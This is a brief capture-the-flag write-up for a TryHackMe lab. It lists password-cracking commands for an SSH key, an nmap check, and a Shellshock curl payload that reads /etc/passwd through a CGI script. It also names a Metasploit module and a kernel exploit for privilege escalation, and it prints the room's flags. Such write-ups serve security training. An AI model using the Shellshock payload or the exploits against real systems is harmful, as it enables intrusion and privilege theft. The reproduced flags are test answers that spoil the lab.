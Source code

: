 # 0day-cgi bin exploit&Kernel exploit

1. Interesting directory: /cgi-bin, /backup

2. Passphrase key: letmein

```
python ssh2john.py /root/Documents/TryHackMe_0day/id_rsa > id_rsa.hash
john --wordlist=/root/Documents/wordlist/rockyou.txt id_rsa.hash
john --show id_rsa.hash 
```

3. cgi-bin vulnerability check

```
nmap $IP -p 80 --script=http-shellshock --script-args uri=/cgi-bin/test.cgi
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://$IP/cgi-bin/test.cgi 
``` 

4. Exploitdb

```
exploit/multi/http/apache_mod_cgi_bash_env_exec
```

5. Privilege escalation

```
linux/local/37292.c
```
# Tasks

1. user.txt

```
THM{Sh3llSh0ck_r0ckz}
```

2. root.txt

```
THM{g00d_j0b_0day_is_Pleased}
```
